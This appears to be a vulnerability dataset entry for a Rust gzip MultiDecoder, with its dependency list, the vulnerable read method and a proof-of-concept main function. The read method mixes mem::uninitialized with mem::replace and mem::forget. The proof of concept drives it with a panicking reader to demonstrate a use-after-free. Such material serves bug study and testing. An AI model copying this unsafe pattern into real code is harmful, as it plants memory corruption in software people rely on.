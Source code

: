 ## Dependencies:
- Crates:
  - `std`
  - `byteorder` (for reading integers from a byte stream)
- Modules:
  - `crate::deflate` (minimal mock)
  - `crate::checksum` (minimal mock)
- Types:
  - Structs: `MultiDecoder<R>`, `Decoder<R>`, `Header`, `CString`, `ExtraField`, `PanicReader`
  - Enums: `CompressionLevel`, `Os`
  - Primitive Types: `u32`, `u16`, `u8`, `bool`
- Traits:
  - `std::io::Read`, `std::fmt::Debug`, `Clone`
- Functions and Methods:
  - Associated Functions: `Header::read_from`, `Decoder::new`, `MultiDecoder::new`
  - Methods: `Decoder::into_inner`, `MultiDecoder::read`
- Constants:
  - `GZIP_ID`, `COMPRESSION_METHOD_DEFLATE`, `F_EXTRA`, `F_NAME`, `F_COMMENT`, `F_HCRC`

## Vulnerable Code:
```rust
impl<R> io::Read for MultiDecoder<R>
where
    R: io.Read,
{
    fn read(&mut self, buf: &mut [u8]) -> io::Result<usize> {
        let read_size = match self.decoder {
            Err(_) => return Ok(0),
            Ok(ref mut decoder) => decoder.read(buf)?,
        };
        if read_size == 0 {
            let mut reader = mem::replace(&mut self.decoder, Err(unsafe { mem::uninitialized() }))
                .ok()
                .take()
                .expect("Never fails")
                .into_inner();
            match Header::read_from(&mut reader) {
                Err(e) => {
                    mem::forget(mem::replace(&mut self.decoder, Err(reader)));
                    if e.kind() == io::ErrorKind::UnexpectedEof {
                        Ok(0)
                    } else {
                        Err(e)
                    }
                }
                Ok(header) => {
                    self.header = header.clone();
                    mem::forget(mem::replace(
                        &mut self.decoder,
                        Ok(Decoder::with_header(reader, header)),
                    ));
                    self.read(buf)
                }
            }
        } else {
            Ok(read_size)
        }
    }
}
```

## Trigger method:
```rust
fn main() {
    // 1. Setup a reader that will panic on the second read attempt.
    let panic_reader = PanicReader { first_call: true };

    // 2. Setup a vulnerable object.
    let mut vulnerable_decoder = MultiDecoder {
        header: Header::default(),
        decoder: Ok(Decoder {
            header: Header::default(),
            reader: deflate::Decoder::new(panic_reader),
            crc32: checksum::Crc32::new(),
            eos: false,
        }),
    };

    // 3. Trigger the bug.
    // The call to read() will panic.
    let result = std::panic::catch_unwind(move || {
        let mut buf = [0; 1];
        // This call triggers the UAF.
        let _ = vulnerable_decoder.read(&mut buf);
    });

    // 4. Verify that the panic was triggered.
    assert!(result.is_err(), "The panic was not triggered, UAF not demonstrated.");
    println!("Successfully triggered panic, demonstrating the Use-After-Free condition.");
}
```